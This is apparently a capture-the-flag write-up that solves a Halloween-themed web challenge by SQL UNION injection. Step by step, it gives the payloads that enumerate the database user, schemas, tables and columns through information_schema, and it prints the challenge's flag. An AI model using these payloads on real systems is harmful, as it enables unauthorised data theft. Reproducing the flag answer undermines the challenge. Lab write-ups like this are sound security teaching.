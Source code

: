 # Web - Unholy Union

## Description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics. Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living. Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Homepage

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The challenge name and the query itself says this can be solved through `SQL Union Injection`

## Attack

### Table description

First we can search with a   to see the table description (a space will match all characters since it's using SQL `LIKE` operator)

```js
{
    "id": 1,
    "name": "Plumbus",
    "description": "A highly useful multi-purpose tool.",
    "origin": "Planet Schlooch",
    "created_at": "2024-10-22T14:12:33.000Z"
  },
```

so it's `int,str,str,str,date`

### User

```sql
ads'union select 1,user(),"","",NULL-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "user@localhost",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

### Databases

```sql
SELECT * FROM inventory WHERE name LIKE '%ads'union select 1,schema_name,"","",NULL from information_schema.schemata-- -%'
```

Result

```json
[
  {
    "id": 1,
    "name": "information_schema",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "test",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

Our interest lies in `halloween_invetory` database

### Tables

```sql
aaa'union select 1,table_schema,table_name,NULL,NULL from information_schema.tables where table_schema="halloween_invetory"-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "flag",
    "origin": null,
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "inventory",
    "origin": null,
    "created_at": null
  }
]
```

So there are **2 tables, flag and inventory**

Let's get our flag....

### Column

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select 1, NULL,table_name,column_name,NULL from information_schema.columns where table_name="flag"-- -%'
```

Result:

```json
[
  {
    "id": 1,
    "name": null,
    "description": "flag", //table name
    "origin": "flag", //column name
    "created_at": null
  }
]
```

We have 1 column named flag......

### Flag

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select \
1, flag, NULL, NULL, NULL from halloween_invetory.flag-- -%'
-- so halloween_invetory.flag is database.table (we usually use this way to get 
-- values from other database (if we know db name && table name && column name)
```

```json
[
  {
    "id": 1,
    "name": "HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}",
    "description": null,
    "origin": null,
    "created_at": null
  }
]
//name here is one of the value in column flag 
```

`HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}`\


\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
